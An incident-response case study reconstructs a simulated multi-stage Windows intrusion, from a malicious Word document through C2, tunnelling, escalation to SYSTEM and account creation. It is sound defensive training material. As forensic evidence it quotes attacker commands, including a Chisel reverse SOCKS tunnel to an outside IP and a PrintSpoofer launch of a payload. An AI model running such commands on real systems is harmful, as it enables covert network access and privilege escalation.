# Multi-Stage Windows Intrusion Investigation

## Executive Summary

This project documents a simulated Windows incident investigation involving a multi-stage compromise that progressed from malicious document execution through command and control, reconnaissance, tunneling, privilege escalation, and persistent administrative access.

The investigation correlated Sysmon telemetry, Windows Security events, and network traffic to reconstruct the attack sequence across the compromised endpoint. Key findings included execution initiated through a malicious Microsoft Word document, abuse of `msdt.exe` and encoded PowerShell, payload placement in a Startup location, HTTP-based command-and-control activity, deployment of a Chisel reverse SOCKS proxy, privilege escalation involving `SeImpersonatePrivilege`, SYSTEM-level execution, and creation of persistent local administrative accounts.

The focus of this case study is not individual alert identification, but reconstruction of the intrusion as a connected sequence of attacker behaviors supported by multiple evidence sources.

## Investigation Scope

The investigation focused on reconstructing attacker activity on a compromised Windows endpoint and answering several core incident-response questions:

- How did malicious execution begin?
- What processes and payloads were involved?
- How was persistence established?
- What command-and-control infrastructure was contacted?
- What reconnaissance was performed after compromise?
- How was tunneling used to support additional access?
- How did the attacker escalate privileges?
- What evidence showed SYSTEM-level execution?
- What accounts or access mechanisms were created for persistence?

The investigation followed the attack from initial execution through post-exploitation and account manipulation rather than treating each artifact as an isolated event.

The environment was a simulated training scenario. Findings are presented as an analyst investigation and are limited to behaviors supported by the preserved forensic evidence.

## Evidence Sources and Tools

### Evidence Sources

The investigation used multiple telemetry sources to reconstruct the intrusion:

- Sysmon event logs
- Windows Security event logs
- packet-capture data
- process creation records
- command-line arguments
- network connection evidence
- DNS and HTTP traffic
- account-management events
- group-membership changes

Each source provided a different view of the compromise.

Sysmon was particularly useful for reconstructing process relationships, command execution, file creation, and attacker tooling.

Windows Security events provided evidence of account creation, account changes, password activity, and modification of privileged group membership.

Network evidence was used to identify command-and-control infrastructure, HTTP communication, tunneling activity, and other external connections.

### Analysis Tools

Tools used during the investigation included:

- EvtxECmd
- Timeline Explorer
- Wireshark
- Brim
- Windows Event Viewer
- PowerShell

The combination of endpoint and network analysis allowed findings to be validated across independent data sources where possible.

## Attack Overview

The intrusion began when a malicious Microsoft Word document triggered a child-process chain involving `msdt.exe` and encoded PowerShell.

The attacker then retrieved additional payloads, established persistence through the Windows Startup mechanism, and began communicating with external command-and-control infrastructure.

Post-compromise activity included reconnaissance, tunneling through a Chisel reverse SOCKS proxy, and privilege escalation. Following escalation, SYSTEM-level execution was established and additional local accounts were created and modified to preserve administrative access.

At a high level, the intrusion progressed as follows:

```text
Malicious Word document
        ↓
WINWORD.EXE
        ↓
msdt.exe
        ↓
Encoded PowerShell
        ↓
Stage 2 payload
        ↓
Startup persistence
        ↓
HTTP command and control
        ↓
Internal reconnaissance
        ↓
Chisel reverse SOCKS proxy
        ↓
Privilege escalation
        ↓
SYSTEM-level execution
        ↓
Local account creation
        ↓
Administrators group membership
        ↓
Persistent access
```

The sections below examine each stage using the preserved endpoint and network evidence.

## Initial Execution

### Malicious Document



*Figure 1 — Sysmon process evidence showing Microsoft Word opening the malicious `free_magicules.doc` document.*

The investigation began with a malicious Microsoft Word document associated with the initial compromise.

Endpoint telemetry showed Microsoft Word launching a suspicious child-process chain rather than behaving like a normal document-viewing session.

The relevant progression was:

```text
Malicious Word document
        ↓
WINWORD.EXE
        ↓
msdt.exe
        ↓
PowerShell
```

The relationship between `WINWORD.EXE` and the subsequent system utilities was important because the presence of `msdt.exe` or PowerShell alone would not necessarily indicate malicious activity.

The significance came from their appearance directly beneath the document process in the execution chain.

This provided the first strong evidence that opening the document resulted in attacker-controlled code execution on the endpoint.

### MSDT and Encoded PowerShell



*Figure 2 — Sysmon command-line evidence showing `msdt.exe` invoked with PCWDiagnostic parameters and an embedded encoded PowerShell expression.*

The process chain showed abuse of `msdt.exe`, followed by PowerShell containing encoded command content.

Encoded PowerShell can be used legitimately, but it is also commonly used to obscure scripts or commands from casual inspection.

In this investigation, its placement directly after the suspicious Word/MSDT sequence made it part of the confirmed malicious execution chain.

The sequence can be summarized as:

```text
WINWORD.EXE
      ↓
msdt.exe
      ↓
Encoded PowerShell
      ↓
Attacker-controlled execution
```

The encoded PowerShell activity provided the bridge between initial document execution and retrieval of the next stage of the intrusion.

The investigation therefore treated the Word process tree as a connected execution chain rather than as several unrelated Windows processes.

## Stage 2 Payload and Persistence

### Payload Delivery



*Figure 3 — Decoded PowerShell showing retrieval and extraction of `update.zip` from attacker-controlled infrastructure into the Windows Startup directory.*

Decoding the PowerShell command revealed a download-and-extraction sequence targeting phishteam.xyz.

The command retrieved update.zip, extracted its contents into the user's Windows Startup directory, and removed the downloaded archive.

Sysmon file-creation evidence subsequently identified update.lnk in that location.

This connected the initial document execution to the installation of the persistence mechanism.

### Startup Persistence



*Figure 4 — Sysmon Event ID 11 recording creation of `update.lnk` in the user's Startup folder.*

The attacker established persistence by placing attacker-controlled content within a Windows Startup location.

Artifacts showed files associated with the intrusion being written into a path that causes content to execute when a user signs in.

This created a persistence mechanism independent of the original malicious Word document.

The progression was:

```text
Downloaded payload
        ↓
Startup location
        ↓
User logon
        ↓
Automatic execution
```

Persistence through Startup folders is significant because it can survive the termination of the original process chain and allow attacker-controlled code to execute again during later user sessions.

The investigation treated file placement and execution as separate questions. The presence of a file in the Startup location established the persistence mechanism, while subsequent process evidence was used where available to determine whether the payload later executed.

### Stage 2 Significance

By the end of this stage, the attacker had moved beyond one-time document execution.

The compromise now included:

- a second-stage payload,
- use of legitimate Windows tooling for file retrieval,
- and a persistence mechanism capable of surviving the initial execution session.

This established the foundation for the later command-and-control, reconnaissance, tunneling, and privilege-escalation activity observed in the remainder of the investigation.

## Command and Control

Following the initial malicious document execution and establishment of Startup persistence, the investigation shifted to network telemetry to identify external communication associated with the compromised endpoint.

Packet-capture analysis provided visibility into outbound connections, HTTP requests, destination infrastructure, and client-identification strings. These artifacts helped connect the endpoint execution chain to the attacker's command-and-control (C2) activity.

### C2 Infrastructure

Network analysis identified communication involving the external domain:

```text
resolvecyber.xyz
```

The domain was investigated in the context of the suspicious endpoint activity rather than being classified as malicious based on its name alone.

The surrounding attack sequence established that the endpoint had already executed attacker-controlled code, retrieved additional payloads, and created a persistence artifact. Subsequent communication with the external infrastructure was therefore treated as potentially related to the ongoing intrusion.

The investigation distinguished between the earlier payload-delivery infrastructure and the infrastructure observed during subsequent C2 activity.



*Figure 5 — Sysmon network telemetry showing repeated outbound connections to `167.71.222.162` from the same process context.*

### HTTP Communication

The packet capture contained HTTP activity associated with the compromised endpoint.

Review of HTTP requests and related network metadata provided visibility into the external destination and application-layer communication behavior.

This complemented the Sysmon investigation:

```text
Malicious document execution
        ↓
PowerShell payload retrieval
        ↓
Startup persistence
        ↓
Suspicious HTTP communication
        ↓
C2-related activity
```

The HTTP evidence was examined alongside endpoint artifacts to determine how the network activity fit into the broader attack sequence.

Where request or response content was available, it provided additional context about the activity. Network connections alone were not treated as proof of the exact commands executed on the endpoint.



*Figure 6 — Brim analysis showing repeated HTTP GET requests to `resolvecyber.xyz`, including variable query-string content and the `Nim httpclient/1.6.6` User-Agent.*

### User-Agent Analysis

One distinctive network artifact was the HTTP User-Agent:

```text
Nim httpclient/1.6.6
```

This value indicated that the HTTP client identified itself as a Nim HTTP client rather than a conventional web browser.

The User-Agent was useful because it could help distinguish suspicious application-generated requests from ordinary interactive browsing.

However, User-Agent strings are client-controlled and can be modified or spoofed. The value was therefore treated as an investigative indicator rather than definitive proof of the software responsible for the communication.

Its significance came from the correlation between the unusual HTTP client behavior and the independently identified malicious endpoint activity.

### C2 Investigation Findings

The network investigation established several important findings:

1. The compromised environment contained suspicious HTTP communication associated with external infrastructure.
2. `resolvecyber.xyz` was identified during investigation of the attacker's network activity.
3. The `Nim httpclient/1.6.6` User-Agent provided an additional indicator for identifying related requests.
4. Network evidence complemented the endpoint execution and persistence findings, strengthening reconstruction of the ongoing compromise.

The combination of endpoint and network telemetry supported the assessment that the intrusion had progressed beyond initial execution into sustained attacker communication.

The investigation then continued into internal reconnaissance, tunneling, and other post-compromise activity.

## Internal Reconnaissance

After establishing command-and-control communication, the attacker began gathering information about the compromised Windows environment.

The preserved network and endpoint evidence showed post-compromise commands aimed at identifying the current execution context, locating potentially useful information, and discovering services that could support additional access.

### C2 Command Decoding

Packet analysis provided visibility into HTTP content associated with the attacker's command-and-control infrastructure.

A captured HTTP response contained Base64-encoded content that decoded to:

```text
whoami
```

Additional decoded command content included a local-account creation command.

The decoded `whoami` instruction demonstrated an attempt to identify the current Windows execution context, while the account-creation command indicated activity extending beyond reconnaissance into account manipulation.



*Figure 7 — HTTP-stream analysis and Base64 decoding identifying command content, including `whoami`, associated with the attacker-controlled communication channel.*

### Credential Discovery

Investigation of the attacker's command activity revealed attempts to locate information useful for further authentication or movement through the environment.

The significance of this activity came from its position in the intrusion sequence. The endpoint had already experienced malicious document execution, payload delivery, persistence, and suspicious network communication.

Credential-related discovery therefore represented an expansion of the compromise rather than normal system administration.

The investigation distinguished discovery of potentially sensitive information from confirmed credential extraction. The available evidence must support each conclusion separately.

Review of the PowerShell command output also exposed credential material stored in `automation.ps1` under the compromised user's Desktop directory.

The script contained a domain username, a plaintext password assignment, and PowerShell commands constructing a `PSCredential` object.

This represented a potential credential-exposure opportunity because the script stored reusable authentication material in a recoverable form.



*Figure 8 — PowerShell output showing embedded domain credential configuration in `automation.ps1`, with the plaintext password redacted.*

### Service and Port Enumeration

The attacker also investigated network services and listening ports on the compromised host.

Identifying listening services can reveal opportunities for remote access, lateral movement, or further exploitation.

The observed behavior was consistent with post-compromise reconnaissance intended to establish what additional access mechanisms were available.

The investigation considered the surrounding process and command context rather than treating port-enumeration utilities as inherently malicious.

The attacker also executed:

`netstat -ano -p tcp`

The command output identified several listening TCP ports, including TCP/445 and TCP/5985, along with their associated process IDs.

These results provided information about services available on the compromised endpoint and potential opportunities for additional access.



*Figure 9 — Windows `netstat` output identifying listening TCP ports and associated process IDs during post-compromise reconnaissance.*

### Investigation Significance

The reconnaissance activity demonstrated that the attacker was using the compromised endpoint as more than a temporary execution environment.

By identifying useful information and reachable services, the attacker was preparing for subsequent actions involving tunneling, remote access, and privilege escalation.

These observations helped bridge the earlier command-and-control activity with the later deployment of Chisel and additional post-exploitation tooling.

## Tunneling and Remote Access

Following command-and-control activity and internal reconnaissance, the investigation identified tooling associated with network tunneling.

The attacker used Chisel, a legitimate TCP tunneling utility that supports encrypted connections and reverse SOCKS proxying. In the context of this intrusion, Chisel provided a mechanism for extending network access through the compromised Windows endpoint.

### Chisel Reverse SOCKS Proxy

Forensic evidence identified a Chisel client executing on the compromised system.

The observed command configuration established a reverse connection to attacker-controlled infrastructure, using Chisel's reverse SOCKS functionality.

The relevant activity can be summarized as:

```text
Compromised Windows endpoint
        ↓
Chisel client execution
        ↓
Outbound connection to Chisel server
        ↓
Reverse SOCKS proxy
        ↓
Potential access to internal network resources
```

A reverse SOCKS proxy differs from a conventional inbound connection because the compromised system initiates the connection outward.

This can allow an attacker to route traffic through the compromised system without requiring the attacker to establish a new direct inbound connection through the target's network perimeter.

The use of Chisel was significant because the attacker had already enumerated listening services and investigated the internal environment.

Together, these activities were consistent with preparation for additional remote access and network movement.

Sysmon process-creation evidence recorded the following command:

```text
"C:\Users\benimaru\Downloads\ch.exe" client 167.71.199.191:8080 R:socks
```

The client argument indicates that the compromised endpoint initiated the connection to the remote Chisel server. The R:socks parameter specifies reverse SOCKS functionality.

The process was launched by:

C:\Users\Public\Downloads\first.exe
This parent-child relationship connected the tunnel to the previously identified attacker-controlled execution chain.



*Figure 10 — Sysmon process evidence showing `ch.exe` launched with reverse SOCKS tunneling parameters. The process was spawned by `first.exe`, connecting the tunneling activity to the earlier post-compromise execution chain.*

### Remote Authentication Activity

The investigation also identified remote authentication activity associated with the later stages of the intrusion.

This activity was analyzed alongside the tunneling evidence to understand how the attacker attempted to extend access beyond the initial endpoint.

The observed use of tunneling and authentication mechanisms demonstrated a transition from endpoint control toward broader access within the environment.

Importantly, the presence of a reverse SOCKS tunnel does not independently prove that a particular internal connection was successfully routed through it.

Establishing that relationship would require supporting network-flow, authentication, or process evidence connecting the tunnel to a specific remote session.

### Investigation Findings

The tunneling investigation supported the following conclusions:

1. Chisel was identified among the attacker-associated tooling.
2. Command-line evidence showed configuration consistent with reverse SOCKS tunneling.
3. The activity occurred after C2 establishment and reconnaissance.
4. The reverse tunnel provided a potential pathway for accessing additional internal resources.
5. The available evidence should be used to distinguish tunnel establishment from confirmed use of the tunnel for specific lateral-movement actions.

This stage demonstrated how a compromised endpoint can become an intermediary for additional network access, making outbound tunneling activity an important detection opportunity during incident response.

## Privilege Escalation

Following the establishment of command-and-control communication and reverse SOCKS tunneling, the investigation identified activity associated with privilege escalation on the compromised Windows endpoint.

Process-creation and command-line evidence showed the attacker examining the privileges available to the current security context before executing additional tooling.

### SeImpersonatePrivilege

Windows process telemetry showed execution of the following command:

`whoami /priv`

This command enumerates the privileges assigned to the current process security token.



*Figure 11 — Process-creation evidence showing PowerShell invoking `whoami /priv` to enumerate the current security token's privileges.*

The output identified `SeImpersonatePrivilege`, a Windows privilege that allows a process to impersonate another security context under applicable conditions.

While this privilege can be present during legitimate Windows operations, it can also be abused by local privilege-escalation techniques.

Subsequent process evidence identified the retrieval and execution
of `spf.exe`, which was identified during the investigation as
PrintSpoofer.

The observed execution included:

`spf.exe -c C:\ProgramData\final.exe`

This linked privilege enumeration to the launch of the next
attacker-controlled payload.



*Figure 12 — Process evidence showing the retrieval of `spf.exe` and its execution with `final.exe`, followed by additional identity-verification activity.*

In the context of the ongoing intrusion, the enumeration was significant because it preceded subsequent activity associated with elevated execution.

The evidence established that the attacker investigated the available privileges. The presence of `SeImpersonatePrivilege` alone did not prove successful exploitation.

### SYSTEM-Level Access

Subsequent attacker activity indicated that execution had progressed to the Windows `NT AUTHORITY\SYSTEM` security context.

SYSTEM is a highly privileged local Windows security identity used by operating-system services and components.

Decoded command-output evidence contained the result:

`nt authority\system`

This supported the assessment that attacker-controlled execution
had reached the SYSTEM security context following the PrintSpoofer
activity.



*Figure 13 — Decoded command output reporting `nt authority\system`, supporting successful privilege escalation to the SYSTEM security context.*

Attacker-controlled execution at this level can provide broad access to local resources and support additional persistence or security-control tampering.

The investigation correlated the privilege-enumeration activity with later process and command evidence supporting SYSTEM-level execution.

This distinction was important:

- **Privilege discovery:** the attacker examined available token privileges using `whoami /priv`.
- **Privilege escalation:** subsequent behavior indicated a transition into a more privileged security context.
- **SYSTEM-level execution:** later artifacts supported attacker-controlled command execution under `NT AUTHORITY\SYSTEM`.

The preserved evidence supports the progression to SYSTEM-level activity, but the precise exploitation mechanism should not be inferred solely from the presence of `SeImpersonatePrivilege`.

### Investigation Findings

The privilege-escalation investigation established the following:

1. The attacker enumerated the current Windows privileges using `whoami /priv`.
2. `SeImpersonatePrivilege` was identified as an available privilege.
3. Subsequent activity supported execution in the SYSTEM security context.
4. The escalation occurred after the initial compromise, command-and-control activity, and tunneling-related execution.
5. The exact privilege-escalation mechanism requires evidence beyond privilege enumeration alone.

This stage was significant because SYSTEM-level access expanded the potential impact of the compromise and preceded the account-management activity investigated in the following section.

## Persistence and Account Manipulation

Following privilege escalation to `NT AUTHORITY\SYSTEM`, the investigation identified additional activity intended to maintain access to the compromised Windows endpoint.

Windows Security events and process evidence were used to examine local account creation, modifications to account properties, privileged group membership, and additional persistence-related activity.

Unlike the earlier Startup-folder persistence mechanism, these actions established alternative means of accessing or controlling the system after the initial compromise.

### Local Account Creation

Windows Security telemetry recorded the creation of two local user accounts:

- `shion`
- `shuna`

Event ID `4720` provided evidence of new account creation.

